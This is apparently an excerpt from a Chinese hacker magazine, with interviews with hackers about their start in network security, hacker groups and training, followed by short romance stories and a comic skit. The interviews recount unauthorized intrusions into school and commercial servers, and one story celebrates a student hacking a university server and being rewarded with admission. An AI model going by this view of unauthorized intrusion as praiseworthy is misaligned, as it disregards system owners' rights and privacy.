
**pinkeyes：** 一个好的团队也很重要啊。

**sagi：** 对了，忘了问你，当时你们学校的服务器都存在哪些漏洞？你是怎么入侵的？

**pinkeyes：** 因为学校有好多服务器，各个系基本上都有不同的服务器，上面也运行着不同的服务，有asp、php、cgi、jsp什么的脚本，通过这些脚本漏洞撕开一个缺口，进入内网就比较好搞了，因为现在的网络一般都是外紧内松型的。

**sagi：** 呵呵，也难怪，当时脚本在国内刚有，你的老师们不懂也情有可原。

**pinkeyes：** 嗯，他们主要比较注重对程序功能的实现，可能还有些对美观、方便操作的一些要求，但对安全编程就相对不太重视了。

**sagi：** 对于目前的网络安全的现状及发展，你是怎么看待的呢？

**pinkeyes：** 对于国内的网络安全，应该说比前两年有了比较大的提高，但还是不容乐观。包括一些国内的门户网站，要做到和现在的美国一样对网络安全重视，不管是从技术上，还是从财力、物力的投资上，我想还是需要有一段时间的。特别是国内的一些政府部门，要对这一块儿多多重视，因为他们的服务器更是尤为重要的，也是时刻都被许多人盯着的，稍有疏忽，就会遭到各种各样的攻击，而一旦被攻破，损失及影响也是非常大的。

**sagi：** 那么教育呢？可以说目前对于网络安全的教育，特别是在大学里的投入严重不足，即使经过了近几年的发展，也只是仅有极个别的大学开设了信息对抗等类似的专业，这也在很大的方面上，限制了网络安全在国内的健康发展。

**pinkeyes：** 对，你说得很对，因为现在虽然有一些学校开设了网络安全这门课，但大多注重的是理论上的学习，应该在实战上也多下点功夫。不可否认理论很重要，但如果没有实战的话很麻烦，经验是很重要的，诸如入侵环境什么的，不是凭空想像所能想出来的；在实战中会遇到很多的问题，了解你的敌人是怎么攻击你的，才能更好地防御他，用中国的一句俗话就是“知己知彼，百战不殆！”

**sagi：** 也正因为如此，对于目前的网络安全爱好者来说，自学尤为重要，你对于他们的学习，有什么好的建议吗？

**pinkeyes：** 兴趣是很重要的，因为这是学习的动力，不要把学习中遇到的问题看成是一种痛苦，当解决它时会给你带来一种比你获得成功更大的快乐。

**sagi：** 对于脚本方面的知识，你认为初学者们应该怎么样才能更好地掌握？

**pinkeyes：** 先总结前人已经给出的经验、方法，最好找个平台自己多多测试，然后再将之深化，毕竟站在巨人的肩膀上学习，比自己从头来要事半功倍，但自己要灵活变通，不要一成不变，那样永远也提高不了。

**sagi：** 你对于现在国内众多的黑客组织是怎么看的？

**pinkeyes：** 我觉得有些黑客组织、网站什么的，确实是大家学习的好地方，学习气氛也不错，但是我觉得黑客组织没必要搞那么大规模，一个各有所长的team就行了，就比较有杀伤力。

**sagi：** 你对于现在许多网站都在搞商业化、收费，是怎么看待的？

**pinkeyes：** 商业化我觉得是一个趋势，因为毕竟搞安全的人也要吃饭，也要生活！

**sagi：** 好的，最后能把你的联系方式告诉各位读者们吗？

**pinkeyes：** 大家要是想找我的话，可以到冰点极限论坛上去找我，http://www.icehack.com。最后我要感谢在生活上、在技术上帮助过我的好朋友（排名不分先后）：沙尘暴、LCX、tomy、chen、悟休、小、brief、lion、never。

**sagi：** 最后，如果你下次能回北京的话，别忘了跟我联系，我请你吃饭！

**pinkeyes：** 呵呵，这是好事，我不会错过的。

**sagi：** 还忘记了说最后一句：你结账！

**pinkeyes：** 晕了！……

### 黑客谈“黑”别

——小鱼巫师、myhk访谈

sagi：小鱼巫师，你好，在网上我曾经看见过关于你的一些简介，呵呵。还是先给读者简单地介绍一下自己吧！

myhk：还是我来介绍一下他吧。从接触网络安全的时间来算，小鱼巫师应该算是中国的第一代黑客了，也是SQL injection技术的发现者，精通c/c++开发，精通asp开发，精通程序安全漏洞及利用，研发的安全产品有防火墙、filter cache server等。

小鱼巫师：过奖了，我简单介绍一下公司里其他的主要人员吧，其实也都是大家所熟悉的一些网络安全高手！

sunx，国内著名的网络安全专家，湖南省公安厅网络安全顾问，研发的安全产品有防火墙、IDS、Scanner、网闸等。知道sunx以及使用过sunx写的溢出程序的朋友一定有许多吧！

chinix，中国的第一代黑客，有着丰富的安全从业经验，是国内著名的安全专家，精通Linux和Windows安全。

myhk，黑客英雄网站的站长，网监处技术顾问。

clygs，国内关于Rootkit技术的先行者。angthu，Linux内核级高手、木马程序开发高手。

sagi：myhk，我在网上曾经看过一篇题目为“关于0x1c的中断设置编程”的文章，署名为myhk的，是你写的吗？

myhk：呵呵，那是我早期写过的一篇文章。

sagi：小鱼，你是什么时候开始接触网络安全的？

小鱼巫师：应该是2000年，还记得中华补天网吧。那时候他们公司网站的安全漏洞就是我帮他们修改的。

sagi：myhk，那你呢？

myhk：我接触网络安全的时候比较晚，是在2002年，在那之前一直是做的关于cisco的，后来还是被小鱼拉着一起搞的网络安全呢。

sagi：小鱼，你们当初都是从事网络安全研究或方案策划，或IDS之类的工作，又是怎么想到要出来搞网络安全培训呢？

小鱼巫师：说实话，我们觉得现在的企业很需要网络安全方面的人才。而且也有很多人对网络安全很感兴趣。我们期望通过网络安全培训，甚至免费提供视频、音频、图文三种教材的方式来引导大家来注意安全问题、关注安全问题、防范黑客攻击，让网络环境变得更加良好。我们愿意做爱好网络安全学员的良师益友，帮助他们开创更加美好的未来。让安全知识从向往到精通，让梦想从遥远变成握在手中。

sagi：当前的网络安全现状与你们刚接触网络安全时已经大不相同了，能谈谈这种发展的区别以及今后网络安全的发展吗？

小鱼巫师：我们可以清楚地感觉到，通过不少人的努力以及信息社会对知识的传播，用户相比以前对网络安全的意识更加重视了，还有软件厂商、开发人员、网络管理人员等也更加重视网络安全知识的学习。但也可以看到随着企业，特别是外企对安全的重视，安全人才的缺乏是显而易见的。我们时代中接触过一些外企的猎头公司，他们就很愿意从我们的学员里招人，因为对外企来说，一个好的网络管理员，不仅仅要懂网络管理，也要懂网络安全。

myhk：现在网络安全知识的普及，“黑客”越来越小龄化了。不但需要在技术方面有所提高，最重要的还是该从黑客精神、理念开始。我觉得不仅应做一个技术好的黑客，同时也要做一个有道德有品质的黑客。

sagi：虽然现在公众对于网络安全的意识都有了普遍的提高，但网络攻击事件不但未见减少，却有愈演愈烈的趋势。各种病毒、漏洞也不比以前少，甚至是越来越多了。对此，小鱼你是怎么看待的呢？

小鱼巫师：攻击和防御是矛和盾的关系。技术的手段能用于防御，同样也能用于攻击。而且现在，出现的一些新的攻击手段有时候也越具有针对性和“社会工程学”化，比如网络钓鱼的攻击手段。各种病毒、漏洞也不比以前少，但我们可以看到相比我们刚在2000年刚接触网络安全的时候，安全的意识是越来越好的，网站的安全性也越来越高，只是现在的信息更加透明化，一个漏洞出来后，会很快地被“很多人”知道，但同时相比以前，网站的应对反应也越来越快。

sagi：不过，目前利用脚本注入来入侵的，并不比当初利用系统漏洞入侵的少，而且目前的脚本注入入侵已经成了一种主流的入侵技术了。

小鱼巫师：2000年，那时候知道脚本入侵的人很少很少。当时几乎所有的网站我使用脚本注入的方式都可以进入。那时候的ChinaMp?.com、chinaas*.com、bbs.nsfocu*.net都曾进去过。

sagi：对了，这次培训班的学员包括了黑鹰、华夏、校园黑客联盟、第八军团等许多成员，你能评价一下他们吗？

小鱼巫师：我们时代中安的培训目标是引领专业，开创未来。能真正让我们的学员学有所成，我相信通过这个课程的学习，这批学员都会学到不少知识，他们也表示从这个课程收获不少。

sagi：01、02年国内黑客组织是以红盟、黑盟、鹰派为代表，可是现在红盟解散了，黑盟也是关了并转成公司，或许只有鹰派在坚持着，而另一方面，是国内又涌现出了许多规模不大的黑客组织。你对于黑客组织是如何看待的呢？

小鱼巫师：黑客组织是一些以相同的兴趣爱好而聚集在一起的人，鼓励大家学习技术。

myhk：当初的那种大联盟的时代已经过去了，现在取而代之的则是技术更有针对性的小组性质的黑客组织。

小鱼巫师：国外的黑客组织现在也是以比较小型的黑客组织居多，形成了一个以技术研究为主的圈子。现在的许多黑客网站也在商业性道路上发展了，国内目前看起来是这样，不过你可以看到俄罗斯黑客就有很强的目的性——赚钱。

sagi：是的，其实有许多的网络爱好者，学习黑客技术的目的，也许刚开始都是为了能够偷到个网游帐号、装备什么的。

小鱼巫师：是的，即使他们学习网络技术的目的只是为了偷个网游的帐号而已，其中涉及到的技术也是有许多的。即便是对于这样的网络安全兴趣爱好者，也需要一步一个脚印地学习，系统性地来掌握相关的技术，从最初始的系统知识、网络基础、网络命令、网络协议、服务、组网，再到各种扫描工具、木马程序、溢出、后门、sniffer、数据库……这些一直学习下去，才能够学有所成。

目前大多数的网络爱好者是真的想学习技术的，暂且不管他们是出于何种目的，他们是真心地想学习。造成这现象可能是因为现在学校的教育跟不上，或者在学校不是学习计算机的学生来学网络安全。网络安全可以说是涉及知识很广的一个行业。它是一门系统性的学习课程，看清楚自己的学习方向，多实践、多沟通，时间长了自然也就熟悉了。想和大家说的就是学知识要学到原理才可以，不要浮躁。

sagi：讲讲国外的黑客现状吧！

小鱼巫师：国外的黑客现状，总的说来跟国内差别也不多。但就技术研究氛围来说，比国内要好。这也在一定程度上造成了中外黑客的技术差距。国外的黑客组织也分为技术研究性的团队和纯粹的黑客组织。不论国内还是国外，这种以技术研究为主的组织技术的水平总是比标榜为黑客组织的高些。

sagi：许多像你们这样很早就接触网络安全的都收过徒弟，你们呢？

小鱼巫师：呵呵，当初，确实有不少说想拜师的。

sagi：那结果呢？

小鱼巫师：没有，大多人我都让他们自己仔细地研究技术。但是还有很多强制拜师的，呵呵！

sagi：呵呵，没有经过亲口承认的，不算数。myhk，你呢？

myhk：没有，我也是让他们自己研究技术，因为这方面的东西主要是靠自学才可以精通。

sagi：不过，现在又多了培训这一条捷径。

myhk：是呀，这个培训科目是我们几位老师辛苦策划出来的系统性比较强的一门课程。其实，有良师来教，入门是挺快的。但是，再怎么样，教，也只能是把你领进门，最终还是要靠自学才行。当然了，入门后的学习有老师也很重要，毕竟这样可以少走很多的弯路。

sagi：好了，感谢两位今天对于小菜们的指导，这对于他们今后的学习与发展都有很大的好处。也希望我们《黑客X档案》与中安公司的网络培训合作，能够对广大的网络安全兴趣爱好者们提供一些学习上的帮助！

## 侠隐仙踪

### 踏雪无痕·寇

> Самое дорогое у человека — это жизнь. Она даётся ему один раз, и прожить её надо так, чтобы не было мучительно больно за бесцельно прожитые годы, чтобы не жёг позор за подленькое и мелочное прошлое и чтобы, умирая, смог сказать:вся жизнь и все силы отданы самому прекрасному в мире — борьбе за освобождение человечества.  
>   
> ——Из <<Как закалялась сталь>> Н. Островского

良久……

帮他们把漏洞修补上吧，他想。

他顺利地补上了漏洞，而且没有留什么后门，因为他对那台服务器上的资源并不感兴趣。然后，他悄悄地离开了那台服务器。

考前的一个月，他悠哉悠哉地过着，偶尔写点东西，偶尔到《X》新版论坛上发些让人忍俊不禁的帖子。

早晨早早地来到班级，看着黑板角上的倒计时，还有20天。别人都在紧张地忙着复习，他却有心情坐在窗前欣赏阳光。

晨会时，老师递给他一封信。看着封面，是一封来自一家高校的信。他想可能是一家专科院校的广告吧——毕业班的学生收到这样的信已经是很平常的事情了。他懒洋洋地拆开信，让他大吃一惊：他收到了一封来自天津理工大学计算机系的录取通知书！他有些抑制不住自己的激动，他可以读计算机专业了！随通知书一起的还有一封短短的信，他用稍有抖动的手打开信：

他叫ANDE，一个学俄语的正面临高考的高中生。把上面一段话翻译过来，你会觉得很熟悉：

> 人，最宝贵的是生命，它给予人只有一次。一个人的生命应该是这样度过的：当他回首往事时，他不因虚度年华而悔恨，也不因过去碌碌无为而羞耻。这样，在他临死的时候，就能够说：我整个生命和所有的精力，都已献给了世界上最壮丽的事业——为人类的解放而作的斗争。  
>   
> ——尼·奥斯特洛夫斯基《钢铁是怎样炼成的》节选

高二的时候开始接触网络安全，他说是从“虚度年华、碌碌无为”的时候开始走进这个领域的。在计算机的世界，他没有见到过任何一组程序里有他熟悉的俄文单词。为了学习计算机，他曾疯狂地自修过英语，他的学习成绩只是曾经辉煌过。

某日随手翻开《高考指南》略览一遍后，他呆了很久：高校的计算机系都标着“仅招英语考生”。这几个字就像上天为他设置的一道强悍的防火墙，将他牢牢地屏蔽在计算机专业之外。可是，他并没有因此而沮丧，他说他要设法穿过这道墙。在他的世界里从来没有过自卑与畏惧，在他的辞典中永远也查不到放弃和消极。谁也不知道是什么使他的内心总是充满阳光，充满着对生活和生命的无限热爱。他说是一种力量，一种来自他的爸爸、妈妈、哥哥、身边的和远方的朋友，还有他无法离开的网络的力量。

多少个日日夜夜，手里捧着《黑客X档案》反复地咀嚼着每一篇文章，他说《X》里充满着无限的智慧，只有用心去感受，才能解读他们真正要表达的心声和技术。

他想考计算机专业深造自己，可是这一切对于他只是个未知，因为他不知道哪家学校会要他这个学习俄语的学生。两天内，他在某高校的网站上贴了近3000份关于他自己情况的介绍及想读计算机的想法。可是，没有一个人理会他。可能是他此生与计算机无缘吧，他想。无聊地在一家高校的计算机系主页上闲逛，他突然产生了入侵主机系统的想法。于是，他便开始行动。连跳板都没上，就狂扫一通——也许这是他一向的狂妄吧！反复地换了四五个扫描器扫了一上午也没出什么结果（毕竟人家是计算机专业的服务器嘛！）虽然有些迷茫，但是他不甘心放弃，倒是高校这台服务器强悍的配置引起了他的兴趣。第二天，他决定手工检测。这是一个繁琐枯燥的过程，除了要有开阔灵活的思维外，还要有坚韧的毅力。

终于，在晚上6点18分，他成功地入侵了那台服务器，而且是利用他自己在入侵过程中发现的漏洞并取得了Administrator权限。可接下来应该做些什么呢？他不知道，因为他并不是有所企图地入侵这台服务器。

> ANDE同学：  
>   
> 你好！  
>   
> 经我校校委会研究决定，你现在已正式被我校录取。首先，恭喜你！  
>   
> 也许你此时正处在对这突如其来的录取通知书感到激动和不解的状态之中吧？还记得半个月前你对我校的入侵行为吧？我校感谢你能够为服务器修补漏洞。其实，你行动的每个细节我们都有记录的。在你行动的最初我们看到你的入侵IP时并没有对你加以制止，是因为我们在调查你的IP时无意中发现你的IP和我校论坛“求学”版块中的一名留言游客的IP相同。我们看到了你的留言记录：“我是一名渴望进入计算机专业学习的高中生，但我学习的外语并非英语，这给我进入计算机系带来了很大的困难……”。根据留言内容，我们推测入侵者很可能就是论坛留言者。所以在你进入我们服务器之前，我们其实已经进入了你的机器并查得关于你情况的介绍、你的详细资料及联系方式。通过这些证明了我们的猜测是正确的。于是我们决定把你这次入侵当作一次“特别的高考”，由校委会全体成员监考。  
>   
> 历时两天的“考试”证明你是合格的，无论在品德上还是技术上你都是合格的。  
>   
> 在这里，对没有经过允许进入你的计算机我们深表歉意。但是，和你入侵我校服务器一样，我们都是没有恶意的入侵。我们进入你的计算机实际上也是几经周折，没有配置防火墙却如此难以入侵的机器并不多见。而且将入侵后在D盘存有一个名为“永远的三年二班、六节”的文件夹我们一直都没有办法打开（可能有你的隐私吧，从文件夹名称来看，我们认为在这里最容易找到关于你的详细资料。所以最先“关注”的就是这个文件夹，可是直到最后也没有打开）。从你入侵的思路和你机器的配置情况可以看出你将攻与防融合得多么完美。只是我们不解的是你入侵时为什么不使用跳板来隐藏自己的IP呢？  
>   
> 我们已经根据你的个人资料为你建立了档案，欢迎你到我校来学习。相信你的明天会有更加灿烂的阳光。  
>   
> 天津理工大学校委会  
> 天津理工大学招生办

或许，他都有些不敢相信这是真的。也许是上天照顾他吧，他这么想着。

> 他说他一定会珍惜这次难得的机会，在他退出“网坛”的时候，他能够说：  
>   
> «Вся жизнь и все силы отданы самому прекрасному в интернете — борьбе за безопасность и информацию.»  
>   
> ——нормадии（“我整个生命和所有的精力，都已献给了网络上最壮丽的事业——为信息的安全而作的斗争”）。

他说人活在世上，无论处境如何，都不要向生活投降。生活中太多的是阴郁，活在这种空气下会让人窒息，所以我们要学会制造阳光，制造一种和别人共享的心情阳光，永远都保持着向上的状态，永远都不向生活低头。

- 从明天起，做个幸福的人  
- 喂马，劈柴，周游世界  
- 从明天起，关心粮食和蔬菜  
- 我有一所房子，面朝大海，春暖花开  
- 从明天起，和每一个亲人通信  
- 告诉他们我的幸福  
- 那幸福的闪电告诉我的  
- 我将告诉每一个人  
- 给每一条河流，每一座山脉，取个温暖的名字  
- 陌生人，我也为你祝福  
- 愿你有一个灿烂前程  
- 愿你有情人终成眷属  
- 愿你在尘世获得幸福  
- 我只愿面朝大海，春暖花开

### 破解的代价——回忆

王杰 [OODZ]

杰静静地坐在天台上，任凭风雨吹打着他那单薄的身躯，望着这个满是灯火而又一片陌生的城市，不知道自己的选择是对还是错……风雨打开了杰的记忆。

认识竹天是在三年前的校园，那时学校以电脑培训班为名义开了一个网吧……（中间正文）……快乐的日子总是过得很快，转眼间到了毕业时间。

电脑专业毕业的她也经常做一些FLASH让杰来看，有时逗得大笑，气氛似乎又回到了从前。杰并没有意识到自己应该补偿什么，只知道没人阻止他玩“黑”就好了。

周末，“杰，我和同学们出去玩了！”竹天说。杰还是无动于衷……（中间正文）……提示密码错误，二月份的《X》里面还有篇破解女孩日记本的文章吗？

> xxx：（密码的XXX）  
>   
> 你为什么还要打电话给我？当初又如此狠心地抛弃我？让我还想起你。我已经有男朋友了。和我爱的人做朋友，和爱我的人做恋人，我现在已经有了一个很爱我的人。虽然他现在爱的只有电脑，只有那本《黑客X档案》，但……

杰呆了，“和我爱的人做朋友，和爱我的人做恋人？那我算什么？”随着一声脆响，键盘被杰重重地砸了下去！

杰离开了家，离开了这个伤心的城市……两个月后，杰经不起对竹天的思念，又回到了家，回到了属于杰的地方。

之后，杰开始对竹天展开爱情的攻势。一个月后，经过杰的胆大、心细、脸皮厚，竹天终于成了杰的女朋友……

“天天到晚玩这些东西有什么意思，听说公园的喷水池开放了，我们去看一下吧。”……竹天很喜欢下载一些伤感歌曲来听，说是听着这些歌曲能缓解自己的心情！

> 盘上竹天留下的一张纸条：就这么一句话就把我给判刑了，难道以前的一切都是假的吗？相爱没有了信任，又有何意义？！保重！

窗外的景物还是那样的熟悉：昏黄的街灯，提着大包小包在街上行走的人群。看着与竹天的合照，“心中刺痛，一切似空……就让这一切已随风。”不知谁家传来了歌声。泪水滑过了杰的脸颊，一切，可以当作一场梦吗？可以像歌里唱的随风而去吗？

### 我挖到你了

伍文通

我，邓杜钦，二十二岁，喜欢可乐，喜欢翘课睡觉。

我有个死党，叫安艺，他自小就和我一起长大，小学一个学校，中学一个班，到大学竟然住到了同一间宿舍。安艺说他这辈子算毁了，摊上我这样的人，他总是想不明白为什么我不学习居然也可以考上大学。我就对他说，考试这东西，要灵活对待，要靠脑子，不是靠死学习。安艺听后愕然，作若有所思状，从此对我佩服得五体投地。

安艺是个学习狂，样子看起来还可以，白白嫩嫩的，我常说他像个女人，我还偷偷瞧见过他在厕所里照镜子，那陶醉的样子啊，简直就是一自恋狂！而我竟然跟他做了这么多年的朋友，这我都忍了！

大一那年我迷上电脑游戏，买了电脑以后就整天沉迷在游戏的世界里出不来。那一天，电脑前的我目不转睛，控制着两个英雄在奋勇杀敌。屏幕上的我杀红了眼，正在激战时刻，女朋友姗姗抓住了我拿鼠标的手说：“杜钦，别这样，停一下，我有话跟你说。”

“快放开我的手，我就要被人干掉啦！”我对着姗姗吼。姗姗还是抓住我的手不放。情急之下我甩开她的手，之后我最不愿意看到的画面出现了，英雄被食尸鬼围杀，部队所剩无几，只剩下几个红血的小兵在四散逃跑。我呆看着惨不忍睹的部队，怒瞪了一眼姗姗：“我跟你没完！”然后我就看见姗姗捂着嘴跑了出去。

可是接下来的几天我就后悔了，因为姗姗几天没有找过我了，以前她不是这样的。每天都会找我，还在男生宿舍下面叫着我的名字，惹得半幢楼的人都伸出头来看，我就特享受，迟迟不肯出来。她也不生气，一直叫。我想她这次真的生气了，我就问身边的安艺是不是，安艺说那还用问吗？我真怀疑那时候到底是不是我，玩游戏玩到昏聩了，竟说出那猪狗不如的话。

几天之后我收到姗姗的一封分手信，说我太大男人主义了。安艺问我为什么和姗姗分手，还说那样好的女孩像恐龙一样是绝迹的了，我不敢把原因告诉他，随便说了句她太大女人主义了，性格不合啊之类的，因为我知道安艺暗恋姗姗，我要是把真正原因说出来他还不把我打歪菜了？

姗姗从此像失踪一样，我根本见不到她，打电话去问她的同学，都说你是她男朋友你不知道她在哪里我怎么能知道？我就像个哑巴，噎着了。

大一的时候因为沉迷游戏，重修了三科，去交重修费的时候我又想起了姗姗的那一句“别这样”，我多么想和收费的老师说：“别这样。”可我没有后悔的权利。

大二的时候和师弟一起上课，颜面尽失。回到宿舍的时候窝了一肚子的火，又玩起了魔兽，没想到技术进步了很多，连赢三局，总算出了股闷气。游戏完了，却有些失落，我想如果姗姗这时握着我的手，对我说：“停一下，我有话跟你说。”我一定会停下来。

大二上学期又挂了一科物理，我彻底绝望了。我想我是应该去读文科的，却不知道怎么的读了理科。郁闷地跑去看帖，看到一张帖说爱情好比物理学领域里的合力：金钱、美貌是阻力，才能、美德是动力。合力等于零时，爱情做匀速直线运动；当阻力大于动力时，做减速运动，爱情趋于结束；当动力大于阻力时，做加速运动，爱情趋于长久。我想，我的爱情是做减速运动了，或者根本就不运动了。

我又问安艺，我和姗姗是真的分手了吗？然后我又自个儿回答，我好像还没有答应她呢。于是又有了一丝庆幸。隔壁宿舍又有几个过来挑战魔兽，我说过几天好不好啊？谁知他们好笑着说我是不是不敢来！？我就说谁怕谁啊。

那天我又通宵了。醒来的时候，已经不知道是什么时间了，空荡荡的宿舍里，很冷，只有寂寞的玻璃反射着白色的光。外面下着雨，我遥望。

打开电脑，躺在椅子上听歌。冲了杯热牛奶，喝下去，一样的冷。

红色的阳光从落地窗的缝隙射了进来，粉蓝的床单，瓷砖地板，木拖鞋。一处一处，满地都是思念的影子，却无人能懂。

突然很想听听姗姗的声音，哪怕，只有一秒。

姗姗离开我的这段时间里，我写了三篇文章，一篇发表在校刊上，班主任还给加了几分文体分，另外两篇安艺看了后，沉默了几分钟，然后说，我想我也该去找个女朋友了。

安艺的女友叫绮雯。我听着安艺，突然发觉安艺越来越长得像个人了，皮肤也晒黑了，开始穿Lee的牛仔裤。绮雯站在安艺身边，软绵绵的，两个人说话动作越看越像克隆的，我还有什么话好说？

我也不甘寂寞，和外校的一个女生打得火热。在QQ上我厚颜无耻地说你做我女朋友怎么样啊？那边就说你别臭美了。我就说我开玩笑的，你就当真了？我越来越发觉我俗得让人发酸。

后来我接到姗姗的电话，接到电话的那一瞬间，我温柔得像个波斯猫：“姗姗，你什么时候回来啊？”

姗姗把我数落了N遍，我在那里怂怂地应着，不敢出声，最后她说了一句“我打电话给你干什么啊？”，接着啪的一声挂了电话，留下我呆在那里。我回拨，却是一个男人的声音……

那一天我生日，依然很冷。姗姗连个电话都无，我在心里暗骂你不需要这样对我吧？我们三人走在街上，安艺、绮雯和我。我一直在沉默，尴尬洒了一地。

转过北京路街口的时候，安艺说：“你知道吗？姗姗有男朋友了。”

我的心突然一凉，我问是真的么？什么时候的事了？安艺说就昨天，我看见的，那个男的还牵着她的手，走在街上，很亲密的样子，我想叫她，但最后还是没有叫。我听见自己的心在下沉，我想起那天电话里的那男声，我真笨啊，这也感觉不到？我宁愿安艺说的不是真的。我突然很埋怨姗姗为什么不给我机会解释，你怎么都得听一下我的解释啊，怎么说我都是爱你的啊。

安艺说：“如果给你选择，你还会选择姗姗吗？”我就说那还用说吗？她如果回来，我立刻给她跪下。说完，我又陷入了沉默。我想哭却哭不出来。

那一夜我又玩游戏到天明，奇怪的是，我一直输，输得一塌糊涂，心不在焉的。

绮雯暑假回了南京，我和安艺留在广州。安艺找了份兼职，说和我一起去，我说好。可是不过安艺那小子就跑去南京了，说为了爱情要背井离乡。

工作的日子我的头脑对爱情一片空白，整天只想着怎样把策划做好，每天都过着头脑发热的日子，我不知道这是幸福还是痛苦。

我想，我终于可以尝试不去想她了。

暑假过去三分之一的时候我终于决定去南京，在广州我一个人会胡思乱想的。临上火车的时候我又接到了姗姗的电话，说祝我一路顺风。我不知道姗姗怎么知道我要走，好像她一直就在我的身边监视我一样。我嘿嘿地说你还好吗？然后我就听到挂电话的声音。我就骂，狠狠地骂，这算什么啊？还差点把手机摔了。我回拨，电话那头说你拨打的手机已关机，我苦笑。

在火车上我构思起了一个长篇，一直都想写个长篇，关于这些年我走过的路，关于姗姗、安艺。可惜我没有耐性，一直没有写。在火车上我想是个好机会，可是想着想着我就睡着了。

下了火车已经是凌晨，打电话给安艺，估计那小子正搂着绮雯在做梦呢，我说你五分钟后给我滚来火车站。我发觉我的火气越来越大。

在南京我整天无事可做，就折磨起安艺的那台电脑，安艺这小子在南京更加无聊，说让我教他玩魔兽。

我和安艺就整天在干魔兽，安艺进步特快，连我都快招架不住了。我说我不玩了，你自己玩。转身去看招聘启事，我想，我还是需要工作的。或者，我是想让自己忙碌一些，忘记一些事和一些人。

投简历，面试，再投简历，再面试。如此循环，折腾了半个月，终于有人肯接收我。安艺在爱情面前却突然成了傻瓜，整天就只知道在家做饭等绮雯。我就说，你这样迟早会失去她的。安艺就笑笑，说，这我知道。我就问，你是不是玩游戏玩傻掉啦？你知道那你还不赶快去找个工作？

安艺就说，他其实并不是很爱绮雯，他只是想找个人来忘记姗姗，他并不属于南京，他迟早要回广州。在回之前他想要对她好一点。我呆住了，突然发觉安艺已经不是以前的那个安艺了，我们之间，什么时候也变得如此无奈了呢？

安艺回广州的时候我去火车站送他，绮雯对安艺说保重的时候，我看见她的眼泪。安艺头也不回，我知道他一回头就会哭，他是不想在她面前哭的。

我在南京干得如鱼得水，早就升职了。我还是没有回去学校报到。绮雯不久就有了新的男朋友，我没有告诉安艺，也不知道安艺知不知道，但是我想，这已经不再重要了。

安艺在广州组建了一个魔兽战队，每天都通宵训练。一天晚上我接到安艺的电话，语无伦次的，好像喝了不少酒，但我还是听到最重要的那一句：“你回来吧。”我想，我是该回去了。

回来后一个多月一直没有姗姗的消息，我又想起了她莫名其妙的电话，她打那些电话是什么意思啊？我想不通。那时候我忙于给一间公司写企划，就不去想太多了。安艺把他的战队搞得有声有色，我越来越不是安艺的对手，安艺拿的奖也越来越多，得到的奖金更是惊人。一次在学校的战网上，我输得一塌糊涂，我瞥了瞥对手的名字：SS。

我郁闷地转过头看了看安艺，一脸诡异的笑容。我感觉有什么不妥，立刻站起身，看到对面角落里姗姗得意的笑容，我们对视了很久。我马上走过去抓住了她拿鼠标的手，说：“姗姗，别这样，停一停，我有话和你说。”

“快放开我的手，我就要被人干掉啦！”简直就是以前我们的对白，只是角色调换了。

安艺就笑得更放肆了。原来这小子什么都知道，我的行动也是他告诉姗姗的。我走近安艺，就是一拳，他疼得哇哇叫。然后我一把抓住姗姗的手，亲爱的，我可找到你了。

## 侠隐仙踪

### 以父为荣开始

侯依彤


其实，确切地说，我和维的爱情故事是以墨盒开始的。但我还是觉得是以 X 档案开始的——这个家伙吹捧些什么……

那段时间里，维因为听乐哥说我家里有打印机，有 Canon 的备用墨盒，所以天天追着我要。那个东西的市价并不便宜，况且我家大权掌握在老妈手中……我怎敢答应？无奈之下，我大声发誓：“维，我工作后第一次工资用来给你买墨盒，无论你在天涯海角都寄给你。”

这样风波才算平息。后来突然发现他对电脑的研究在同龄人中已经很棒了，虽然我是女孩子，但对于电脑也很喜爱，所以软磨硬泡地要维教我。维说：“那我拿两本《黑客 X 档案》给你看吧！”我很听话地点点头……可是当他递给我后我却傻眼了，什么跟什么啊！？简直和天书一样，很多单词都不认识，没有办法，只好在他书上乱画一通……

维家的打印机和我家的一模一样，都是 Canon 的，而且还是同一型号同一款，我想这就是缘分吧……

三个月后，我们分手了。我可以感觉到他有多痛苦，他写了一封很长很长的信给我，后来也打了电话给我，但我坚持不和他见面。分手的原因，我说不清，也解释不清。

并对电脑的理想？

后来，经常听说关于他和他的 computer 的事情。例如他获了什么什么奖的消息……我知道我选择对了，虽然当时的自己真的很懦弱。不过现在，我依旧是他的 GF，而且也不再会放弃任何一个了。有时我会笑着说：“维，做你 GF 一定要有心理准备呢！”“？？”“你睡觉时肯定抱电脑啊！”“！”然后他就笑着看我在一旁张牙舞爪。

事实上，我是对电脑一窍不通的“脑盲”，可是现在被他也培养得懂得了什么是“肉鸡”，什么是“暴力破解”、“入侵”、“DDOS”……还有好多我叫不上来的。

维很喜欢《黑客 X 档案》，关于 computer 的书他几乎只买 X 档案，所以我们经常去书店。书店的姐姐、阿姨们喜欢叫《黑客 X 档案》，但我和维喜欢叫它 X 档案，几次误被听成“长安乱”，这一直是书店的笑料。

从学习到指点，再到现在，维已经自己写文章向 X 投稿了。我想维应该算是一个 Hacker 了，不过他说不是。他告诉我说人外有人，天外有天。他不想利用技术挣钱，他说这太低俗，Hacker 只代表了一种精神、一种力量。

无论发生什么，任何的险阻，我都相信会如每月阅读等待 X 案档一样，等他！


## 侠隐相谈

### 莫里斯

小小菜鸟王小鸟：“大汉大黑客大哥，小弟小鸟小小黑客要拜你为师。上次你帮我清除了病毒，好崇拜你哦。”

“王大汉”：“小事小事。上次那个病毒啊，一定是本地头牛干的，要不我们偏僻的小镇怎么可能中病毒的。”

王小鸟：“就是。上次的病毒一定是极端网吧的老板干的。上次我欠了他五毛钱，他一直怀恨在心呢。”

王大汉：“那种人。”

王小鸟：“先不说这个了。大汉大黑客大哥，你先和我说说你的光辉历史吧，听说你破坏了一家反病毒公司服务器，真的好崇拜你哦。”

王大汉：“唉，那件事啊。说来话长，那家反病毒公司的工程师带我到他们公司喝酒，知道为什么吗？”

王小鸟傻愣愣的，听得入迷。

王大汉接着说：“那是因为那个工程师想追我姐。那晚我们喝醉了，起了争执，我一气之下就抬起了脚。可那时醉了，脚不稳，刚好踢中了旁边的服务器，事情也就是这样子。唉，都是年轻气盛。不过也有趣啊，从此这帮人就叫我关中第一黑客！可我一直弄不明白，我们这不叫关中啊。小鸟啊，你知道吗？当年的中美黑客大战，我们村子的十二台电脑都参与了，除了我的电脑外，其余的电脑都瘫痪了。”

王小鸟激动不已：“大汉黑客大哥！我好崇拜你哦！”

王大汉很气愤：“TMD，那晚我的电脑怎么也没连上 Internet，气死我了。”

